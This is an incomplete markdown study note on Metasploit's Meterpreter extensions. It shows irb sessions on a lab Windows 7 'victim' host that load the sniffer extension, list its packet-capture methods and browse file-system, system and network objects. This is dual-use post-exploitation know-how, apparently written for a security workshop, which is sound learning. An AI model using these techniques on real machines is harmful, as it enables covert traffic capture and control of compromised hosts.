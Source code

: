 # Meterpreter Extensions

Meterpreter extensions are located in `metasploit-framework/lib/rex/post/meterpreter`

## Extension ClientCore : `core`

**Path** 
- `metasploit-framework/lib/rex/post/meterpreter/client_core.rb`

```ruby
>> client.core
=> #<Rex::Post::Meterpreter::ClientCore:0x00000005f83388 @client=#<Session:meterpreter 192.168.0.18:55861 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">, @name="core">
```

- **use**

This method used to load meterpreter extensions which is used in the meterpreter console (ex. `use sniffer`, `use mimikatz`, etc )
> Note: to list all loadable extensions in meterpreter console use `use -l` command.

From irb console of the meterpreter, let's try to use *sniffer* extension

```ruby
>> client.sniffer
=> nil
```
As you can see, it returns a `nil` because the *sniffer* extension hasn't yet loaded.

Let's try to load the extension 
```ruby
>> client.use "sniffer"
=> nil
```

As you can see it returns a `nil` because the method *use* is available in the `core` extension not in the meterpreter `client` instance.

- To load extension 

```ruby
>> client.core.use "sniffer"
=> true
>> client.sniffer
=> #<Rex::Post::Meterpreter::Extensions::Sniffer::Sniffer:0x000000142cc108 @client=#<Session:meterpreter 192.168.0.18:55861 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">, @name="sniffer">
```

To check all *sniffer* extension methods, go to `/home/KING/Code/MSF/metasploit-framework/lib/rex/post/meterpreter/extensions/sniffer/sniffer.rb`

also, from irb, get all methods as we know 
```ruby
client.sniffer.methods
```
which returns an array of all available methods
```ruby
>> client.sniffer.methods
=> [:interfaces, :capture_start, :capture_stop, :capture_stats, :capture_release, :capture_dump, :capture_dump_read, :name, :name=, :client, :client=, :psych_to_yaml, :to_yaml, :to_yaml_properties, :blank?, :present?, :presence, :acts_like?, :to_param, :to_query, :try, :try!, :duplicable?, :deep_dup, :in?, :instance_values, :instance_variable_names, :to_json, :with_options, :html_safe?, :`, :dclone, :old_send, :as_json, :require_or_load, :require_dependency, :load_dependency, :load, :require, :unloadable, :assert_no_remainder, :decode_tlv, :decode_integer, :decode_timeticks, :decode_integer_value, :decode_uinteger_value, :build_integer, :decode_octet_string, :decode_ip_address, :decode_sequence, :decode_object_id, :decode_object_id_value, :encode_length, :encode_integer, :encode_tagged_integer, :integer_to_octets, :encode_null, :encode_exception, :encode_tlv, :encode_octet_string, :encode_sequence, :encode_object_id, :pretty_print, :pretty_print_cycle, :pretty_print_instance_variables, :pretty_print_inspect, :nil?, :===, :=~, :!~, :eql?, :hash, :<=>, :class, :singleton_class, :clone, :dup, :taint, :tainted?, :untaint, :untrust, :untrusted?, :trust, :freeze, :frozen?, :to_s, :inspect, :methods, :singleton_methods, :protected_methods, :private_methods, :public_methods, :instance_variables, :instance_variable_get, :instance_variable_set, :instance_variable_defined?, :remove_instance_variable, :instance_of?, :kind_of?, :is_a?, :tap, :send, :public_send, :respond_to?, :extend, :select, :display, :sleep, :method, :public_method, :singleton_method, :define_singleton_method, :object_id, :to_enum, :enum_for, :gem, :class_eval, :pretty_inspect, :silence_warnings, :enable_warnings, :with_warnings, :silence_stderr, :silence_stream, :suppress, :capture, :silence, :quietly, :debugger, :breakpoint, :suppress_warnings, :==, :equal?, :!, :!=, :instance_eval, :instance_exec, :__send__, :__id__]
```

Getting available interfaces which returns array of hashes 

```ruby
client.sniffer.interfaces
=> [{"idx"=>1, "name"=>"\\Device\\NdisWanBh", "description"=>"WAN Miniport (Network Monitor)", "type"=>3, "mtu"=>1514, "wireless"=>false, "usable"=>true, "dhcp"=>false}, 
{"idx"=>2, "name"=>"\\Device\\{DF8BF690-33F1-497F-89ED-A31C236FE8E3}", "description"=>"Intel(R) PRO/1000 MT Network Connection", "type"=>0, "mtu"=>1514, "wireless"=>false, "usable"=>true, "dhcp"=>true}]
```



## Extension Stdapi::Fs : `fs`

**Path** 
- `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/stdapi.rb`
- `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/fs`

```ruby
>> client.fs
=> #<Rex::Post::Meterpreter::ObjectAliases:0x00000001db6ae0 @aliases={"dir"=>#<Class:0x00000001e09e70>, "file"=>#<Class:0x00000001e12890>, "filestat"=>#<Class:0x00000001db7530>, "mount"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Fs::Mount:0x00000001db6c48 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>}>
>> 
```

One of the extensions available for `fs` is **Dir** located in `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/fs/dir.rb`. Let's to use some of its methods which we can know from `client.fs.dir.methods` or from source code.

- Get current directory
```ruby
>> client.fs.dir.pwd
=> "C:\\Windows\\System32"
```

```ruby

```


```ruby

```


- cd 
- getcwd or pwd
- ls
- upload
- download

## Extension: `sys`

**Path** 
- `/home/KING/Code/MSF/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/stdapi.rb`
- `/home/KING/Code/MSF/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys`


```ruby
>> client.sys
=> #<Rex::Post::Meterpreter::ObjectAliases:0x00000001dcd600 @aliases={"config"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Sys::Config:0x00000001db69c8 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>, "process"=>#<Class:0x00000001db69a0>, "registry"=>#<Class:0x00000001db8ed0>, "eventlog"=>#<Class:0x00000001dc0e28>, "power"=>#<Class:0x00000001dc4398>}>
```

- getuid
- sysinfo
- rev2self
- 

## Extension: `net`

**Path** 
- `/home/KING/Code/MSF/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/stdapi.rb`
- `/home/KING/Code/MSF/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/net`


```ruby
>> client.net
=> #<Rex::Post::Meterpreter::ObjectAliases:0x00000001dcd3d0 @aliases={"config"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Config:0x00000001dcd4e8 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>, "socket"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Socket:0x00000001dcd4c0 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>, "resolve"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Resolve:0x00000001dcd470 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>}>
```

- ipconfig
- route
- portfwd